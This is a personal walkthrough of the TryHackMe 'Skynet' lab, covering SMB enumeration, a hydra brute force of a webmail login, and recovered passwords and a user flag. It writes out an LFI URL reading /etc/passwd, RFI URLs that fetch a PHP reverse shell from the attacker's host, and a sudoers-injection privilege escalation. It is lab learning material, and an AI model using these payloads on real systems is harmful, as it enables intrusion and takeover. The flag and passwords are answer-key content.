 ### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)

We perform enumeration on the secret page and the results are as follows:

![](../../img/Pasted%20image%2020220827220920.png)

We visit the page /administrator but it seems that we need credentials again:

![](../../img/Pasted%20image%2020220827220954.png)

After this, we tried to use searchsploit for any vulnerabilities:

![](../../img/Pasted%20image%2020220827221033.png)

After searching, we can see that there is a vulnerability that uses local file inclusion for obtaining RCE, thus we tried to perform the LFI first:

![](../../img/Pasted%20image%2020220827221146.png)

For the LFI, we will use this syntax first to check if it really is working:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Modifying into this:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Reveals into this:

![](../../img/Pasted%20image%2020220827221323.png)

At this point, we can safely assume that RFI (remote file inclusion) is also possible, and i got stuck in this point.

We will now craft the RFI section of the vuln:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?`

With which we will create a file in our local directory:

![](../../img/Pasted%20image%2020220827221852.png)

![](../../img/Pasted%20image%2020220827221902.png)

We will create a http.server on port 80 and netcat:

![](../../img/Pasted%20image%2020220827221934.png)

![](../../img/Pasted%20image%2020220827221945.png)

Then, after performing this link, we can now see that the httpserver has provided the php-reverse-shell file and netcat has now connected to the payload:

![](../../img/Pasted%20image%2020220827222042.png)

![](../../img/Pasted%20image%2020220827222057.png)

![](../../img/Pasted%20image%2020220827222109.png)

then performed shell stabilisation:

![](../../img/Pasted%20image%2020220827222126.png)

Then performed search for user.txt using find:

![](../../img/Pasted%20image%2020220827223411.png)

User flag:
7ce5c2109a40f958099283600a9ae807

For the privilege escalation, we performed sudo -l , transfer linenum, but to no luck. Instead, we checked /etc/crontabs and we found the following:

![](../../img/Pasted%20image%2020220827224758.png)

We opened the backup.sh and it says that we cd to var/ww/html and backup all the contents there every minute:

![](../../img/Pasted%20image%2020220827224846.png)

This is where i got stuck and searched for help. Here is the syntax for obtaining root:

![](../../img/Pasted%20image%2020220827224955.png)

Link: https://medium.com/azkrath/tryhackme-walkthrough-skynet-69399702ee5a


echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh


http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47/php-reverse-shell.php?